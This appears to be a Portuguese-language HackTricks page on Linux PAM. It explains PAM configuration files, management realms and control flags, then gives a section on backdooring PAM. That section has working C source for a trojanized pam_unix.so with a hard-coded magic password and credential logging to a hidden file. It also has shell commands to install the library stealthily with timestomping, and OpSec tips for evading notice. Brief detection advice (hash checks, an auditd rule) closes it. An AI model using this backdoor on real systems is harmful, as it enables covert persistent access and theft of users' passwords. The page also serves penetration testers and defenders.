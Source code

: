 # PAM - Pluggable Authentication Modules

{{#include ../../banners/hacktricks-training.md}}

### Informações Básicas

**PAM (Pluggable Authentication Modules)** atua como um mecanismo de segurança que **verifica a identidade dos usuários que tentam acessar serviços de computador**, controlando seu acesso com base em vários critérios. É semelhante a um porteiro digital, garantindo que apenas usuários autorizados possam interagir com serviços específicos, enquanto potencialmente limita seu uso para evitar sobrecargas no sistema.

#### Arquivos de Configuração

- **Sistemas Solaris e baseados em UNIX** normalmente utilizam um arquivo de configuração central localizado em `/etc/pam.conf`.
- **Sistemas Linux** preferem uma abordagem de diretório, armazenando configurações específicas de serviços dentro de `/etc/pam.d`. Por exemplo, o arquivo de configuração para o serviço de login é encontrado em `/etc/pam.d/login`.

Um exemplo de configuração PAM para o serviço de login pode parecer assim:
```
auth required /lib/security/pam_securetty.so
auth required /lib/security/pam_nologin.so
auth sufficient /lib/security/pam_ldap.so
auth required /lib/security/pam_unix_auth.so try_first_pass
account sufficient /lib/security/pam_ldap.so
account required /lib/security/pam_unix_acct.so
password required /lib/security/pam_cracklib.so
password required /lib/security/pam_ldap.so
password required /lib/security/pam_pwdb.so use_first_pass
session required /lib/security/pam_unix_session.so
```
#### **Reinos de Gerenciamento PAM**

Esses reinos, ou grupos de gerenciamento, incluem **auth**, **account**, **password** e **session**, cada um responsável por diferentes aspectos do processo de autenticação e gerenciamento de sessão:

- **Auth**: Valida a identidade do usuário, frequentemente solicitando uma senha.
- **Account**: Trata da verificação da conta, checando condições como associação a grupos ou restrições de horário.
- **Password**: Gerencia atualizações de senha, incluindo verificações de complexidade ou prevenção contra ataques de dicionário.
- **Session**: Gerencia ações durante o início ou fim de uma sessão de serviço, como montar diretórios ou definir limites de recursos.

#### **Controles do Módulo PAM**

Os controles ditam a resposta do módulo ao sucesso ou falha, influenciando o processo geral de autenticação. Estes incluem:

- **Required**: A falha de um módulo requerido resulta em falha eventual, mas somente após todos os módulos subsequentes serem verificados.
- **Requisite**: Término imediato do processo em caso de falha.
- **Sufficient**: O sucesso ignora as demais verificações do mesmo reino, a menos que um módulo subsequente falhe.
- **Optional**: Causa falha apenas se for o único módulo na pilha.

#### Exemplo de Cenário

Em uma configuração com múltiplos módulos de autenticação, o processo segue uma ordem rigorosa. Se o módulo `pam_securetty` encontrar o terminal de login não autorizado, logins de root são bloqueados, mas todos os módulos ainda são processados devido ao seu status de "required". O `pam_env` define variáveis de ambiente, potencialmente ajudando na experiência do usuário. Os módulos `pam_ldap` e `pam_unix` trabalham juntos para autenticar o usuário, com `pam_unix` tentando usar uma senha fornecida anteriormente, aumentando a eficiência e flexibilidade nos métodos de autenticação.

## Backdooring PAM – Hooking `pam_unix.so`

Um truque clássico de persistência em ambientes Linux de alto valor é **trocar a biblioteca PAM legítima por um drop-in trojanizado**. Como cada login SSH / console acaba chamando `pam_unix.so:pam_sm_authenticate()`, algumas linhas de C são suficientes para capturar credenciais ou implementar um bypass de senha *mágico*.

### Compilação Cheatsheet
```c
#define _GNU_SOURCE
#include <security/pam_modules.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static int (*orig)(pam_handle_t *, int, int, const char **);
static const char *MAGIC = "Sup3rS3cret!";

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
const char *user, *pass;
pam_get_user(pamh, &user, NULL);
pam_get_authtok(pamh, PAM_AUTHTOK, &pass, NULL);

/* Magic pwd → immediate success */
if(pass && strcmp(pass, MAGIC) == 0) return PAM_SUCCESS;

/* Credential harvesting */
int fd = open("/usr/bin/.dbus.log", O_WRONLY|O_APPEND|O_CREAT, 0600);
dprintf(fd, "%s:%s\n", user, pass);
close(fd);

/* Fall back to original function */
if(!orig) {
orig = dlsym(RTLD_NEXT, "pam_sm_authenticate");
}
return orig(pamh, flags, argc, argv);
}
```
Compilar e substituir de forma furtiva:
```bash
gcc -fPIC -shared -o pam_unix.so trojan_pam.c -ldl -lpam
mv /lib/security/pam_unix.so /lib/security/pam_unix.so.bak
mv pam_unix.so /lib/security/pam_unix.so
chmod 644 /lib/security/pam_unix.so     # keep original perms
touch -r /bin/ls /lib/security/pam_unix.so  # timestomp
```
### Dicas de OpSec
1. **Sobrescrita atômica** – escreva em um arquivo temporário e `mv` para o lugar para evitar bibliotecas meio escritas que bloqueiam o SSH.
2. Colocação de arquivos de log como `/usr/bin/.dbus.log` se mistura com artefatos de desktop legítimos.
3. Mantenha as exportações de símbolos idênticas (`pam_sm_setcred`, etc.) para evitar mau comportamento do PAM.

### Detecção
* Compare MD5/SHA256 de `pam_unix.so` com o pacote da distribuição.
* Verifique se há permissões de escrita global ou propriedade incomum em `/lib/security/`.
* Regra do `auditd`: `-w /lib/security/pam_unix.so -p wa -k pam-backdoor`.

### Referências

- [https://hotpotato.tistory.com/434](https://hotpotato.tistory.com/434)
- [Palo Alto Unit42 – Infiltração de Redes de Telecomunicações Globais](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)

{{#include ../../banners/hacktricks-training.md}}

